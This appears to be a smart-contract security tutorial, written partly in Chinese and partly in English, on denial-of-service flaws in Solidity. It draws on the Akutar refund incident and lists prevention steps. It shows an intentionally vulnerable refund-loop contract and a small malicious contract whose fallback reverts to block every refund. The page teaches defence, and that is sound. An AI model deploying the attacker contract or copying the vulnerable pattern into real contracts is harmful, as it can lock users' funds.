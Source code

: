 ```yaml
---
displayed_sidebar: generalSidebar
keywords:
  - smart-contracts
  - security
  - vulnerabilities
  - dos
  - denial-of-service
  - ethereum
  - solidity
  - refunds
  - fallback-function
  - prevention
  - gameoffunds
tags: [ Denial of Service, Security, 智能合约 ]
---
```


# 拒绝服务攻击

2022年4月，一家名为Akutar的热门NFT项目成功地进行了一次 [荷兰式拍卖](https://en.wikipedia.org/wiki/Dutch_auction)筹集了11,539.5个ETH。 However, when processing refunds for previous community pass holders, a flaw in their smart contract prevented operations, locking all funds within the contract due to a DoS vulnerability.

你可以在[解析：AKUTARS NFT事件(2022年4月)](https://www.halborn.com/blog/post/explained-the-akutars-nft-incident-april-2022)中找到更多详细信息。

在Web2环境中，拒绝服务(DoS)攻击通常涉及使用过多的流量淹没服务器，使其无法处理合法请求。 在Web3领域，这类攻击利用漏洞来破坏智能合约操作。

#### 漏洞示例

Let’s explore a simplified contract, `GameOfFunds`, that demonstrates this type of vulnerability. 该合约允许玩家在开始时存入ETH，并打算在游戏结束时退还这些存款。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

contract GameOfFunds {
    bool public refundsComplete;
    mapping(address => uint256) public deposits;
    address[] public participantList;

    // Players deposit ETH into the contract
    function contribute() external payable {
        require(!refundsComplete, "Game Over");
        require(msg.value > 0, "Please deposit ETH");
        deposits[msg.sender] = msg.value;
        participantList.push(msg.sender);
    }

    // Refund players at the end of the game
    function processRefunds() external {
        require(!refundsComplete, "Game Over");
        for (uint256 i = 0; i < participantList.length; i++) {
            address participant = participantList[i];
            uint256 refundAmount = deposits[participant];
            (bool success, ) = participant.call{value: refundAmount}("");
            require(success, "Refund Failed!");
            deposits[participant] = 0;
        }
        refundsComplete = true;
    }

    function getBalance() external view returns(uint256) {
        return address(this).balance;
    }
}
```

这个合约存在漏洞，因为`processRefunds()`函数使用了`call` 方法，它会激活收件人地址的回退函数。 A malicious contract can disrupt this process.

```solidity
contract Malicious {
    fallback() external payable {
        revert("DoS Attack!");
    }

    function initiateAttack(address gameAddress) external payable {
        GameOfFunds game = GameOfFunds(gameAddress);
        game.contribute{value: msg.value}();
    }
}
```

## 预防策略

1. 确保外部合同调用（包括回退函数）不会干扰或停止关键操作，即使个别交易失败，退款等流程也能继续进行。
2. 即使关键参与者永久缺席，也要保持合约功能，并允许用户自行提取退款，而不是分批发放。
3. 防止合约意外自毁并避免无限循环，以确保合约运行稳定和安全。

